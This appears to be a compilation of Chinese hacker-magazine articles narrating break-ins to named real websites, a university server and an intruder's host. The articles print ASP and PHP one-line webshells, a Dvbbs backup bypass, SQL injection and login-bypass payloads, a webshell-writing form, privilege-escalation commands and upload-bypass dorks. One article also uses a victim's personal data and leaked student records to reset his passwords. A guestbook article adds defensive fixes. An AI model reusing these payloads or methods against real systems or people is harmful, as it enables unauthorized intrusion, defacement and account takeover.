| `.asa` | `WScript.Shell` 或 `clsid:{72C24DD5-D70A-438B-8A42-98424B88AFB8}` | 危险组件，一般被ASP木马利用 |
| `.asp` | `Shell.Application` 或 `clsid:{13709620-C279-11CE-A49E-444553540000}` | 危险组件，一般被ASP木马利用 |
| `.asp` | `Execute` | 可执行任意ASP代码，常见后门利用 |
| `.asp` | `CreateObject` | 被用于实例技术，需重点查 |
| ... | `eval()` | 可执行任意ASP代码，风险高 |

图4

WebShell位于动网论坛目录，基本可确定从这里进入。但测试时发现提权漏洞已补，论坛也未见跨站代码。追问后得知论坛管理员密码长期弱且多人知晓，最终通过强化密码基本收回“失地”。

### 日志寻踪

继续追查时发现日志几乎被清空，IIS日志仅剩少量访问记录。建议调整日志保存路径并进行专门监控。

**日志存放位置：**

Windows系统日志包含应用程序日志、安全日志、系统日志、DNS日志等。默认位置通常在：

- `%systemroot%\system32\config`（默认文件约512KB）
- 安全日志：`%systemroot%\system32\config\SecEvent.EVT`
- 系统日志：`%systemroot%\system32\config\SysEvent.EVT`
- 应用程序日志：`%systemroot%\system32\config\AppEvent.EVT`
- DNS日志：`%SystemRoot%\system32\config\DnsEvent.EVT`

修改Windows系统日志存放位置可在注册表 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Eventlog` 下对应分支中修改 `file` 键；修改IIS日志保存位置可在IIS管理器的网站属性中调整。文末提到继续根据WebShell留下的信息追踪入侵者线索。

可惜没有得到我想要的资料。不过这倒让我想起了他是从动网入侵的，那么在动网的数据库里应该有记录才是。打开动网数据库，翻看DV_LOG表，里面的记录入侵者可能忘记删除了。从这里确定了他的入侵方法：上传文件再备份成ASP，更令人高兴的是得到了他的IP。

## 韩战攻略

搜索了一下这个IP，发现竟然是韩国的主机，如图6所示。先用端口扫描，发现主机开了21、1433、3389这几个端口，如图7所示。

没有开80端口，看来通过网站渗透进去是不可能了。重点放在1433端口。用MSSQL溢出测试，结果没有成功。只能寄希望于弱口令上了。我比较喜欢用HSCAN。命令格式：

```text
HSCAN -h ip -mssql ftp
```

果然有一个SA空口令。用SQLTools连接成功，执行命令时发现 `xplog70.dll` 被删除了，如图9所示。

翻了半天硬盘也没找到 `xplog70.dll`，问了几个朋友也说没有。看来只能用别的扩展组件执行命令了。用SQL查询分析器连接目标主机时出现了奇怪的现象，连接成功后程序自动关闭，从网上又下载了一个也是这样，输入错误的密码还会提示密码错误，真搞不懂是怎么回事。正当我不知所措的时候，朋友扔过来一个SQLRootkit。在程序界面里输入IP、用户名和密码，点击登录后就连接成功。SQLRootkit利用四种组件来执行系统命令，在执行前还可以先检测一下组件，并且它还具有恢复的功能。当然前提是支持组件的文件要存在，如 `xplog70.dll`、`odsole70.dll` 和 `xpstar.dll`。

我们先看看组件是否存在，检测情况如图10所示。

`XP_cmdshell` 缺少文件不能用，`sp_oacreate` 显示执行成功但主机没有执行命令，`xp_regwrite` 执行命令超时，`xp_servicecontrol` 执行命令虽然没有回显，但却是唯一能执行成功的，如图11所示。

远程登录主机，打开事件查看器，发现日志没有被删除。用动网数据库中记录的入侵时间比对了一下安全中的用户登录日志，找到了入侵者的IP。从 `C:\Documents and Settings` 目录下找到了入侵者浏览网站的历史记录，这下证据确凿了。见谅，查看入侵者的IP得知是上海的ADSL。临走时在CMD下执行了“quser”，看到管理员也在线，并且发现了这台主机已经在线三百天了，如图12所示。

我还没见过在线时间这么长的Windows主机，难怪入侵者那么嚣张。把入侵者的IP和相关证据交给了朋友并把过程告诉了他，后面的事情就随他了。

总结这次反入侵过程，基本上没碰到难处，可以说一气呵成。也没有什么新技术，都是大家知道的，就是把它们都组合起来而已。感觉防护比入侵难多了，要从各个方面做好防护。在这里奉劝那些“黑客”，我们去入侵是印证自己的技术，不是用来搞破坏的。

- 适合读者：网络爱好者、脚本爱好者
- 前置知识：无

## 浅谈伪造数据库后门的两种方法

文/图 人鱼姬

经常渗透网站的朋友一定对Dvbbs很熟悉。比较常用的方法是千方百计地拿到前台和后台的管理员口令，然后上传改过扩展名的ASP木马，再用数据库备份功能将扩展名改回来，就能拿到WebShell了。

但是我可以很高兴地告诉各位网管朋友：这种办法在Dvbbs 7.1 SP1中已经行不通了，这说明Dvbbs的安全性进一步加强，不是拿到前台后台管理员口令的人就可以胡作非为了。因为在Dvbbs 7.1 SP1中，备份数据库之前，系统会先检查被备份的文件是否为数据库格式，若不是就不进行备份。这真是广大站长的福音啊，如图1所示。

不过我还可以更高兴地告诉各位玩渗透的朋友：如果各位以为这样就可以阻止我们拿到WebShell的话，那这种想法未免就太天真了。根据以往的经验来看，安全是相对的，暂时的，不安全才是绝对的，永恒的。下面介绍突破动网论坛7.1 SP1备份数据库限制的两种方法。

### 方法一：手工解决

先用Access新建一个数据库，如图2所示。随便建一个表，再新建一个字段，数据类型为文本，如图3所示。最后在列里写入一句话木马，如图4所示。此数据库就被插入一句话木马了。将此文件扩展名改为jpg、rar等可以上传的文件扩展名，然后上传。

然后上传，再到后台备份。Dvbbs 7.1 SP1不是喜欢检查吗？那么我们就给它一个一句话木马数据库让它查。查呀？查呀？你倒是查呀？结果当然是顺理成章地拿到WebShell。

```asp
<%execute request("value")%>
```

### 方法二：程序帮忙

刚才是手动做了一个含有一句话木马的数据库，这次我们借助工具来突破备份数据库的限制。我们使用“数据库木马合并器”来完成这个操作，如图5所示。

- 数据库木马合并器可以将ASP木马与空数据库合并，注意是空数据库。合并后的文件既是ASP木马又是数据库。

点击打开文件，选中我的海洋ASP木马，设置好保存路径，成功，如图6所示。在后台备份一下试试，没有问题，如图7所示。

软件作者有点狠，正常关闭软件时，会打开一个IE窗口连接他的网站。我们直接使用进程管理器杀掉此进程就不会弹窗口了。总体来说，这两种方法实现起来都非常简单，不过效果却是显而易见的。

- 适合读者：网络爱好者、入侵爱好者、脚本爱好者  
- 前置知识：无

## 老漏洞新利用
### 三步攻破胡兵全球互动网

文／图 3389info

胡兵估计大家都知道吧？最近比较火的那个，这里就不替他做广告了，喜欢不喜欢他的 Fans 可以去网上找找他的资料。今天我给大家带来的是“三步攻破 www.hubing.cn（胡兵全球互动网）”。

主页没啥说的，尽是精美的 flash，问题出在网站所用的论坛上。看了下版权，完全无语了，居然是传说中的 PHPWind 1.3.6，如图1所示。


此版本出的问题可不少，有兴趣的朋友可以去找一下相关资料，拿出 Pinkeyes 写的针对 PHPWind 2.02 以下版本的利用工具，点击攻击。如果论坛没打补丁的话，就会在当前目录下创建一个名为 error.php 的文件，内容为 LANKER 微型 PHP 后门：`<?php eval($_POST[cmd]);?>`，如图2所示，看来我们成功了。


用客户端连接，得到一个 WebShell，如图3所示。


现在就可以传我们的木马上去了，我用的是 PHPSpy2006 saiy 修正版，在黑防主页有下载，感觉增加的几个工具都比较实用。试试我们的权限，如图4所示。

使用“netstat -an”查看，发现开了3389，不过用“net user”添加不了用户，估计当前用户是 user，没权限修改。再次查看，发现还有一个 Serv-U 43958 端口。现在可以考虑用 Serv-U 来提权。最简单的办法，使用 PHPSpy 上新增的 Serv-U EXP，如图5所示。


执行成功，如图6所示。


最后将 saiy 用户提升到管理员“net localgroup administrators saiy /add”。通过3389登录，搞定，如图7所示。

因本人也是胡兵的 Fans，所以马上写信告诉他了。最后顺便说一点经验：不要老盯着大学的站点，其实许多明星站点也存在不少安全问题，嘿嘿。


- 适合读者：网络爱好者、入侵爱好者  
- 前置知识：无

## PHP注入广东医学院

文／图 morephaze

寒假回家跟老同学聚会，小Z告诉我他在广东医学院当了一名学生网管，心里特兴奋了。但是还不可以管理校 Web 主机，最近他发来短信说让我帮他渗透一下，好让他在事后帮老师修复漏洞，从而获得被提拔的机会……寒，没想到现在流行起了监守自盗。既然朋友有求，自然自己得应下来。

收到信息后直奔机房，打开 IE 搜了一下广东医学院的网址，刺探一下情况。从 Web 页面可以看出，这是个“非典型”的整站。因为绝大多数科研教育单位都有能力开发自己的 CMS，虽然功能模块比不上一些专业的整站，但应付单位的日常需要还是足够了，简洁方便又安全。废话不说了，我们先看页面，如图1所示。


图1

这应该是一套 PHP+MySQL 的架构，最近学了一阵子 PHP，正好温习一下。就拿此文章链接开刀吧，提交个单引号，返回如图2所示。


图2

PHP 暴露出了它的物理路径，这就方便多了。再来提交“and 1=1”和“and 1=2”确认，分别返回不同的页面，如图3所示。


图3

如无意外的话，目标系统的 PHP 配置里将单引号转成反斜杠了，这也在意料之中。但由于 id=2694 是整形变量，不用考虑单引号我们也能走下去，因为我们还有 Union。

有了 Union，从此 Hack 的道路更宽敞了。在这里先温习一句经典的话“id=2694 and 1=2 union select 1,2,3,4,...,x”。

> 为何要加上 and 1=2 呢？因为如果前面的查询正确的话，MySQL 会返回前面的查询结果给你，但现在需要的是后面我们的结果，这就只有让前面的查询没记录才让后面的数据返回来，“and 1=2”就是为了这个目的。

既然已经拿到了注入点和 Web 物理路径，这里就不作手动提交了（上网贵贵）。我直接用幻影旅团 mix 的 phpri 文件读取工具来读出它的文件，如图4所示。


图4

填上要读的文件再点击“快速读取”，很快就得到一个 Union 查询到的字段数，不用管它，点确定。接着便会让你选择爆文件的路径，初学者可以选择全部的字段显示，那就省去了判断字段类型的工夫，点击获取如图5所示。


图5

成功爆出 view.php 文件的内容。注意这里有个 require config.php，我猜测这可能是数据库连接文件，将 config.php 文件再填上去爆，结果很快出来了，如图6所示。果然不出所料，拿到了 MySQL 的用户名和密码。用该账号登录远程 MySQL。我用的是牛×族 MySQL 连接器，填上信息连接，结果提示拒绝访问。后来想想这年头，服务器不装防火墙的已是凤毛麟角。回到 Web 方面，看看对方有没有装了 PHPMyAdmin。在浏览器填入“http://www.gdmc.edu.cn/admin/gdmcxcb/news_files/saphpshell.php”，返回如图7所示的页面。


图6


图7

这下有得玩了，用前面得到的用户名和密码登录上去再说。很快在 user 的表里找到了文章系统的管理员密码，如图8所示。


图8

再返回到 Web 网页找后台，原来后台目录是 admin，用账号登录进去后，直奔添加文章的模块，在图片上传区把我们的 PHP 木马填上，最后添加文章成功。我们回到刚刚添加的文章的链接处，在原本应该显示图片的区域点击右键查看属性，如图9所示。


图9

找到了木马的所在路径，在 IE 输入如下地址 http://www.gdmc.edu.cn/admin/gdmcxcb/news_files/saphpshell.php，如图10所示。


图10

最后把主页稍微涂了一下再通知小Z让他去大显身手，能不能提拔就看他的造化了。行文至此，如有不妥之处还望高手指正！

> **脚本小子：** 大家对于漏洞的理解，往往只是那些大型的常用系统，比如动网、PHPWind等。事实上，网络上还存在不少的自写脚本系统，很多朋友因为对这些系统不了解而没有去尝试渗透。然而当你渐渐地深入研究就会发现，理解这些小型的非主流系统对思路的拓展将是大有裨益的。

## 设计人生留言系统的漏洞攻防与修补


撰文／桂林电子科技大学·何扬辉

设计人生（designlife V1.5）留言系统是一款功能比较简单的 ASP 留言系统。正因为简单，所以我把它介绍给我的学弟使用……现在网上能找到的最新版为1.5版。读了部分代码之后，发现漏洞还真不少。

### 经典漏洞重现

经典“or'='”漏洞也叫绕过身份验证登录漏洞。我们打开管理员登录验证页面 cklogin.asp，发现代码有明显的漏洞，关键代码如下：

```asp
name=trim(request.Form("adminname"))
pass=trim(request.form("password"))
set rs=server.createobject("adodb.recordset")
sql="select * from admin where name='"&name&"' and password='"&pass&"'"
```

```asp
rs.open sql,conn,1,1
if not rs.eof then
  username=rs("name")
  session("lifeuser")=username
  session.Timeout=10
  rs.close
  set rs=nothing
  conn.close
  set conn=nothing
  response.redirect "index.asp?user="&username
else
```

只要我们满足 `sql="select * from admin where name='"&name&"' and password='"&pass&"'"` 这条语句就让我们进去。在用户名里填 a，在密码里填 `'1' or '1'='1`，此时 SQL 语句就变为：`select * from admin where name='a' and password='1' or '1'='1'`……

Or 后为真就使整个语句为真，从而轻易地突破（注意单引号巧妙的利用）。至于后面的这个 Rs("name") 则是由于找不到我们所用的 a，但是又没有错，所以默认会读取数据库最后一条记录，此系统只有一个管理员（至于为什么，我下面会分析）Admin，所以会转到 "index.asp?user=admin" 页面。如果不信，你可以在数据库里加一个管理员 "lovexysky"，使用用户名&密码 "1'or'1'='1" 登录后会转到 index.asp?user=lovexysky，这里的 Session 只是赋值，各位不用怕。

“edit.asp?id=20”（当然前提得有这个 id 值存在）会显示相应的编辑页面，如图1所示。


图1

关于此漏洞修补，一般是把单引号过滤一下就可以了，至于如何过滤，最好是把一个单引号替换成两个单引号，因为 SQL 语句规定，常量 `''` 这样表示的常量里，如果要有单引号，可以用两个单引号代替。这样既可以保持用户输入的原貌，又可以保证程序的安全。如下所示：

```asp
name=Replace(trim(Request.Form("adminname")),"'","''")
pass=Replace(trim(Request.Form("password")),"'","''")
```

在写类似的查询语句时最好再加一个判断，到底传递过来的密码与数据库的密码是不是一样：`if Rs("password")<>pass then Response.write "提示 账号或密码错误！" end if`。这样做即使可能因为过滤不严而绕过前面的限制，但入侵者在查询数据库时就可以防止突破了。当然我们也可以用 instr 对输入的字符进行检测，看是否有单引号之类的特殊字符，有就给出提示，总之自己发挥就好，关键是要搞清楚原理。

这样我们就可以从前台身份修改任意的留言或删除留言了，不过在前台直接改管理员密码不成功，改密码关键代码如下：

```asp
user=session("lifeuser")
password=trim(request.form("newpassword"))
set rs=server.createobject("adodb.recordset")
sql="select * from admin where name='"&user&"'"
rs.open sql,conn,1,3
rs("password")=password
rs.update
rs.close
set rs=nothing
conn.close
set conn=nothing
```

### 未验证用户权限漏洞

通过上面的登录代码我们知道登录成功后会给我们一个 Session 变量值，本以为只要以后有 Session 判断就不会存在权限问题。想不到我高估了程序作者，我们来看 index.asp 的关键代码：

```asp
user=session("lifeuser")
……省略无关代码
<% if session("lifeuser")="admin" then %>
<a href="remessage.asp?id=<%=rs("id")%>&user=<%=user%>"></a>
<a href="edit.asp?id=<%=rs("id")%>&user=<%=user%>"></a>
<a href="delok.asp?id=<%=rs("id")%>&user=<%=user%>" onClick="javascript:return confirm('...')"></a>
<% end if %>
```

上面的代码说明只判断了 Session("lifeuser")="admin"，如果是就会显示编辑、回复、删除功能的图片与链接。如果不是，那就不显示这些功能。但是否在首页显示不显示，作为一套开源的系统，总得有个验证吧。恰恰相反，这套系统的编辑、回复、删除、改管理员密码功能页面都可以访问，没做任何的限制。拿编辑页面 edit.asp 来说吧，在地址里输入“edit.asp?id=20”会直接进入。

可以看到它的参数 User 是我们登录时的 Session 值。当然我们结合前一个漏洞是绝对可以改掉管理员密码的。建议像这些只有管理员才能访问的页面加一个 Session 判断，每个文件都这么写未免觉得麻烦，可以写一个通用的文件比如 sadmin.asp，代码如下：

```asp
<%
Function checkPermission()
  If Session("lifeuser")<>"" then
    checkPermission=TRUE
  Else
    checkPermission=FALSE
  End if
End Function

tmp=checkPermission()
If tmp=FALSE then
  response.redirect "amain.asp"
end if
%>
```

以后在这些需要权限访问的页面加上 `<!--#include file="isadmin.asp"-->` 调用即可。

### 跨站攻击漏洞

该跨站漏洞比较怪异，之所以说怪异，是因为它并不像我们想像的你去发一篇留言就可以有跨站效果了。我们打开保存添加留言的 addok.asp 文件，可以发现开头就有一个函数如下：

```asp
Function chkstr(str)
    str = replace(str, "<", "&lt;", 1, -1, 1)
    str = replace(str, ">", "&gt;", 1, -1, 1)
    chkstr = str
End Function
```

然后在添加的时候用 `message=chkstr(trim(request.Form("message")))` 过滤，其它几个变量虽然没加 chkstr 过滤但都有长度限制。一般来说过滤了 `<` 与 `>` 符号，那么跨站就没得玩了。不过由于此系统的作者写代码思路不够清晰，所以产生了“怪异”的跨站攻击。打开编辑留言后保存的 editok.asp 文件，我们可以看到如下代码：

```asp
id=trim(request("id"))
set rs=server.CreateObject("adodb.recordset")
sql="select * from gbook where id="&id
rs.open sql,conn,1,3
rs("username")=request.form("username")
rs("useremail")=request.form("useremail")
rs("userhttp")=request.form("userhttp")
rs("userqq")=request.form("userqq")
rs("msgtitle")=request.form("msgtitle")
rs("message")=request.form("message")
rs.update
rs.close
set rs=nothing
conn.close
set conn=nothing
```

它对传递过来的所有变量都没有过滤就写到数据库里了，结合上一个权限未验证漏洞我们可以编辑一篇留言，为其加上如下代码：

```html
<script>alert("Have a Test!\n 哈哈，我就是要跨站!")</script>
```

保存后会返回首页显示留言信息，这个时候就会弹出上面这段代码的对话框了。我想，既然作者想到了过滤 `<` 与 `>`，那为什么在编辑的时候却什么也不做呢，太自信了吧？如图2所示。


图2

至于跨站能做什么，网上相关教程蛮多的，一般是 iframe 挂马或者窃偷 Cookie 之类的，有兴趣的读者自己去研究。关于该漏洞的修补从原理上要注意两点：

- A. 过滤或转换用户提交数据中的 HTML 代码，比如写一个去除 HTML 格式的函数，以下代码仅供参考：

```asp
========================================
```

- 把字符串进行 HTML 解码，替换 server.htmlencode，去除 HTML 格式，用于显示输出。

```asp
Function outHTML(str)
    Dim sTemp
    sTemp = str
    outHTML = ""
    If IsNull(sTemp) = True Then
        Exit Function
    End If
    sTemp = Replace(sTemp, "&", "&amp;")
    sTemp = Replace(sTemp, "<", "&lt;")
    sTemp = Replace(sTemp, ">", "&gt;")
    sTemp = replace(sTemp, chr(13), "<br>")
    sTemp = Replace(sTemp, Chr(34), "&quot;")
    sTemp = Replace(sTemp, Chr(10), "<br>")
    outHTML = sTemp
End Function
```

显然该系统出问题是因为作者处理问题方式欠佳而引起的，在编辑里加上相应的替换就不会出现这么低级的漏洞了。

- B. 限制用户提交数据的长度

我们知道跨站的时候要写代码有一定长度，我们在长度上做文章就在一定程度上限制了跨站漏洞。在写程序的时候我们可以在客户端用 Javascript 脚本限制一遍，然后在服务端检测一遍，当然考虑到如果全放在服务端检测会影响服务器性能，我们可以放在客户端检测一遍然后限制非法用户本地提交，以下代码仅供参考：

```asp
<%
Dim server_v1,server_v2
server_v1=Cstr(Request.ServerVariables("HTTP_REFERER"))
server_v2=Cstr(Request.ServerVariables("SERVER_NAME"))
if mid(server_v1,8,len(server_v2))<>server_v2 then
    response.write "<br><br><center><table border=1 cellpadding=20 bordercolor=black bgcolor=#EEEEEE width=450>"
    response.write "<tr><td style=font:9pt Verdana>"
    response.write "<center>你提交的路径有误,禁止从站点外部提交数据!</center>"
    response.write "</td></tr></table></center>"
    response.end
end if
%>
```

不过上面的代码也是存在安全隐患的，因为传递过来的 HTTP_REFERER 变量可以人为修改，所以建议把重要的数据放在服务器端再检测一遍。

### 无处不在的注入

在读这套源码的过程中，我发现作者的思路真的可能有点乱：

```asp
if qq<>"" then
    if not IsNumeric(qq) or len(qq)<5 or len(qq)>11 then
        response.Write("<script language='javascript'>window.alert('QQ号必须是5-11位的数字...');history.go...")
    end if
end if
```

```vb
vb
(-1)</script>"
response.end
end if
end if
```

他用了 `IsNumeric` 判断一个变量是否为数字型，还判断其长度是否合法。打开 `edit.asp` 文件，`id=trim(request("id"))`，后续 SQL 形如 `select * from gbook where id=`&id，属于典型的数字型注入。关于普通注入方式如图3所示。


图3

这里主要说一下 Union 查询。`edit.asp` 中多个变量值来自数据库显示，因此可用 Union 查询把管理员表中的账号密码放到对应显示位置。

> 当 SQL 注入对象是 ACCESS 数据库时，可利用查询与 UNION 查询；也可借助子查询（如 `and exists (select * from admin)`）探测或读取同库/跨库信息。

Union 查询本质是把两个或多个表按列连接。要求联结列数一致、对应字段类型相同。可先通过 `edit.asp?id=20 union select 1,2,3,4,5,6 from admin` 逐步试错，不匹配时会报错（见图4）。


图4

`1,2,3...` 依次猜到 14 才正确（如图5）。说明有 14 个字段，再分析显示位（如名字对应2、主题对应9），即可构造查询语句。

查询语句 `edit.asp?id=20 Union select 1,name,3,4,5,6,7,8,password,10,11,12,13,14 from admin`，可在页面对应位置显示管理员账号与密码，如图6所示。


图5


图6

另一种方法是看源码和数据库结构。由 `sql="select * from gbook where id="&id` 可知在查 gbook 全字段，统计字段数后按数量构造 Union；若存在过滤可结合 `where` 条件（如 `where name="admin"`）调整查询。

文中最后指出其他文件也可能有类似漏洞，建议将 `IsNumeric` 判断封装为通用函数以便复用。

```vb
' 判断是否是数字，否则用默认值替换
' iCheck 要替换的变量, iDefault 默认值
Function GetSafeInt(iCheck,iDefault)
  If Trim(iCheck)="" Then
    GetSafeInt = iDefault
    Exit Function
  End If
  If IsNumeric(iCheck)=false Then
    GetSafeInt = iDefault
    Exit Function
  End If
  GetSafeInt = iCheck
End Function
```

```vb
Function GetSafeStr(str)
  GetSafeStr = Replace(Replace(Replace(Trim(str), "'", ""), Chr(34), ""), ";", "")
  GetSafeStr = Replace(Replace(Replace(Replace(Replace(str, "\", ""), " ", ""), "&", "&"), "<", "<"), ">", ">")
End Function
```


图8

### 不安全的数据库

看了一下该系统的说明文件，里面有这么一句：“4. 加强了数据库防下载措施”。对比了两个版本的区别，原来就是前面多了一个“#”。

- A. 防下载措施不好：默认数据库从 `data/lifedata.asp` 改为 `data/#lifedata.asp`，但这种方式仍可绕过。
- B. 利用跨站漏洞写 Shell：在留言标题中写入一句话木马，通过访问数据库文件触发报错并定位关键错误信息。


图7

到这里就不再多说什么了，一句话木马客户端代码如下：

```html
<form action=http://127.0.0.1/newnew/data/%23lifedata.asp method=post>
<textarea name=a cols=120 rows=10 width=45>
set sky=server.CreateObject("Adodb.Stream")
sky.Open
sky.Type=2
sky.CharSet="gb2312"
sky.writetext request("f")
sky.SaveToFile server.mappath("xysky.asp"),2
sky.Close
set sky=nothing
response.redirect "xysky.asp"
</textarea>
<textarea name=f cols=120 rows=10 width=45>木马代码</textarea>
<input type=submit value=提交>
</form>
```

接下来是数据库安全隐患的修补。常见做法是向数据库写入 `<%notdown%>` 以触发 ASP 语法错误来防下载，但在 ACCESS 中普通文本字段会被处理，实际效果有限。应将 `<%` 以 OLE 对象字段（二进制）形式写入，才能达到防下载目的。

> OLE 是 `Object Link and Embed` 的缩写，用于对象链接与嵌入。文中说明 ACCESS 的 OLE 字段本质类似二进制字段（long binary），可用于存储二进制内容。

说了这么多，其实就是要把 `<%` 以二进制形式写进数据库。下面给出操作步骤。

- A. 先用记事本新建一个内容为 `<%` 的文本文件并保存。
- 用 ACCESS 打开数据库，新建表并添加 OLE 对象字段。
- 新增记录并插入该文本文件，成功后可看到对应记录（文中示例为“数据包”）。


图9

再改回 ASP 后访问，返回错误提示如下：


由于写入的是不完整的 ASP 代码（如仅 `<%`），程序会报“缺少脚本关闭标志 `%>`”等错误，从而实现防下载。并进一步讨论此方式对一句话木马执行的影响。

得自己手工修改数据库还插入 OLE 对象比较麻烦的话，可以参考如下代码修改数据库，以下代码仅供参考：

```asp
<%
  db="data/#lifedata.asp"  '这里改成您的数据库地址
  set conn=server.createobject("Adodb.Connection")
  connstr="Provider=Microsoft.Jet.OLEDB.4.0;Data Source="&Server.MapPath(db)
  conn.open connstr
  conn.execute("create table notdownload(notdown oleobject)")

  set rs=server.createobject("adodb.recordset")
  sql="select * from notdownload"
  rs.open sql,conn,1,3
  rs.addnew
  rs("notdown").appendchunk(chrB(asc("<")) & chrB(asc("%")))
  rs.update
  rs.close
  set rs=nothing
  conn.close
  set conn=nothing
%>
```

读这段代码，我们可以看出，它实际上是向数据库写入二进制的 `<%`，当然你可以改为 `%>`。这段代码运行完之后将会在数据库内生成一个 `nodownload` 表，表内字段是 `notdown`，此时你再访问数据库地址就会发现已经无法访问了，如图10所示。


### 小结

设计人生留言系统由于本身功能不是太强大，所以其安全性也没多少人关注，加上这个系统很久没有更新了，有漏洞也不足为奇。不过本文旨在分析一套简单的系统漏洞，从而让读者举一反三去发现其他系统中的漏洞。最后还是那句话，知其然而知其所以然！如果觉得小弟写得不对，请不吝指教！

适合读者：网络爱好者、入侵爱好者

前置知识：无

## 商业网站管理平台的三个上传漏洞

文／图 雅虎

很多商业网站都使用了如图1所示的会员管理平台，该平台功能强大，但在提供这些强大功能的同时，也存在一些漏洞。不过有些网站已经修补了此漏洞，大家要试验的话可以多找几个网站试试。直接搜索“会员管理平台”（不含引号），会找到很多这样的网站。

首先我们注册一个会员，最好注册为收费会员（放心不会让你花钱的），因为有的网站非收费会员不能上传公司图片。登录以后点击企业名录管理，再点击上传公司图片，如图2所示。

## 上传漏洞！


当然，直接上传 ASP 是不太可能的，我们可以直接上传 `abc.gif.asp` 类型的文件，上传成功后再次点击上传公网图片，在图像预览区点右键就会看到我们可爱的 WebShell 地址，如图3所示。


图3

### 上传漏洞2

第二个漏洞利用起来最简单，也是最容易获得 WebShell 的，连注册都不用。直接在网址“/manage/”后加上“spzs/zs_save_add.asp”，如果浏览器中出现弹出提示框如图4所示，那么恭喜你可以利用此漏洞了。如果提示要登录，则该漏洞已经补上了，我们用 Domain3.5 的动网上传直接上传 ASP 木马就可以了。这里实际上利用的是上传商品图片处的漏洞。

我们可以利用百度或 Google 搜索“inurl:manage/spzs/”或“inurl:manage/qyml/”（不含引号），也能找到不少这样的网站，将 `manage/` 后换成 `spzs/zs_save_add.asp` 就可利用。


图4

### 上传漏洞3

第三个漏洞利用起来有点难度，漏洞文件地址为“/manage/qyml/upfilein.asp”，我们可以直接打开，如图5所示。经过测试可以直接上传 ASP 文件，但是必须在“上传到：”后加上网站的物理路径才能真正上传成功，此漏洞可配合其他暴库一类漏洞使用。


图5

文章技术含量不高，不过使用此系统的管理员还是非常多的，希望大家看到这篇文章的时候能迅速修补自己机器的漏洞。

> 脚本小子：谈到社会工程学，大家一般都会理解为打打电话、发发信件，伪装成对方熟悉的人，然后窃取有用的资料。其实，这只是社会工程学的应用之一而已，其实还有更多的利用方法等待我们挖掘。

适合读者：网络爱好者、入侵爱好者

前置知识：木马使用基础

## 巧施社会工程学拿下个免费空间


文/图 Rose [N.C.P.H]

### 引子

昨天晚上刚写完代码，在学校的 QQ 群里透气，正好遇到几个计算机狂热分子在里面高谈网站建设，刚进去打个招呼，就被几个寒气逼人的家伙冒了几句：“你们 NCPH 最近很牛哇，有本事把我网站黑了 http://***.f78.net”……完全挑战啊。恰好一美女在群里面也叫道：“师傅，给他黑了！”哎，什么时候又成她师傅，没办法，冲着美女这句话也不能示弱：“我看看。”（其实我心里也没什么底）

首先先看看有没有注入漏洞。在几个带参数的网址链接后面加了个“'”号都没反应，难道真的没注入？此站应该不是他自己写的，我们来看看他的结构。如图1所示。发现了他的后台 `http://***.f78.net/login.asp`，试了一下 `"or" "="`，`"or" "=" "or"`，admin、admin888 进行登录，结果全部失败。并且全是点击“登录”后找不到页面，有可能他的后台根本就登录不进去。

### 渗透

接下来便开始分析他的网站，还好不是全静态的页面。再静下心来看一下该网站，网站名字为“xxx在线”，但上面还有他的个人介绍，够详细的。如图2所示。连个人姓名、年龄、邮箱、三……三围、手机、QQ 等在网站上全可以找到，哎，太张扬了吧。了解了一下网站的基本信息，继续动手干。


测试是否有上传漏洞，检查上传漏洞和默认数据库都没戏，这也正常，不然人家凭什么挑战。

再仔细查找一下注入点，用旁注软件批量注入测试一下，同样没有什么信息。接下来只有再看看他的站了，这么大个站，拼凑了这么多的源代码没一点破绽？不相信。

还好有一个投票系统，不过看来也是用别人的源代码。我判断一下，如图3所示。


再试一下 `and 1=1` 返回正常，`and 1=2` 出错，看来有戏了。拿注入工具猜解一下，还是用明小子旁注3.5，结果如图4所示。


得到了一个密码，心头一阵欢喜，去后台登录一下。但是输入用户名“admin”、密码“49420072”仍然找不到页面。后来经证实，为了防止攻击，后台代码已改，的确不能登录。

### 苦旅

也许到了这一步我们真的是无计可施了吧，我仍对白白放弃不甘心。

自己说不要轻易放弃。既然网站程序已经无计可施，我们再从其他地方着手吧。旁注发现其关联国际域名：http://www.f78.net，于是打开该域名查看，如图5所示。


这是一个提供免费空间的网站，页面上没有明显注册入口；点击“申请”提示请先登录，却又找不到注册位置。随后在版权处发现 `www.ffccc.com`，继续跟进找到注册点。

申请免费空间需要社区点数，并与域名绑定，域名即注册名，还可以修改 FTP 密码。

### 蓦然回首

通过前面搜集的信息，可以施展社会工程学：用其用户名与猜出的密码“49420072”登录失败；再尝试其邮箱也失败，说明其并非常用该密码。

在登录窗口点击“忘记密码”，提示输入用户名后出现密保问题，如图6所示。


根据前文信息输入生日 1984107，进入重设密码界面，如图7所示。


输入新密码后修改成功，再回登录框输入用户名和新密码，登录成功，如图8所示。


点击免费空间，回到 `www.f78.net` 登录框，输入用户名和密码登录如图9所示。


当然我们现在得到的只是一个他在免费空间上注册的账号和密码，但免费空间是通过 FTP 管理的。我们看上图，其功能就只有“修改FTP密码”一项。我们主要目的是拿下他的网站，不过仅现在的情况还无法做到。因为我们点击“修改FTP密码”时需要输入原始密码，如图10所示。


但原 FTP 密码我们并不知道，我也试了通过注入点猜解出来的密码，不过没有成功。我再习惯性地看一下“忘记密码”的选项，如图11所示。


需要身份证号，这一项又把我难住了，难道我还得再一次施展社会工程学？再想想办法，我在他的网站上找了找，但是没有身份证号资料，看来他的个人简介还不够详细。忽然间想到，他跟我是一个学校的，我们学校学籍管理系统中有个人的身份证号，不过那要用学号跟密码登录才可以查看到。

没办法，只有试一试了，怎么知道学号呢？我记得曾经在百度搜我自己的名字时，搜出来是一份 Excel 表格，上面还有我的学号。原来是学校把这些信息放在服务器上的，并且可以下载到。同样，我也在百度输入他的名字，把他们班的学生信息表 download 了下来。找到了学号，用刚才注入猜解得到的密码登录，还好，登录成功。

在他的个人信息里果然找到了身份证号，输入上图框中“提交”。OK，FTP 搞定。换句话说，整站搞定。

最后想了想，发现主要原因是系统的“找回密码”功能设置得不周全。不过大多数网站都是这样的，如果网站在找回密码功能中直接把找回的密码发到注册者的邮箱中还比较稳妥些。在入侵过程中真的是防不胜防，有时候一个小小的疏忽，就是让整个防线全线崩溃。同时也告诉我们在入侵的过程中思维是最重要的，随着注入时代的远去，社会工程学的巧妙利用也会让你喜不胜收。

适合读者：脚本爱好者、入侵爱好者

前置知识：无

## VIP会员学习成果展

文/图【黑防VIP】爱情圣殿

## 入侵铁路资讯网

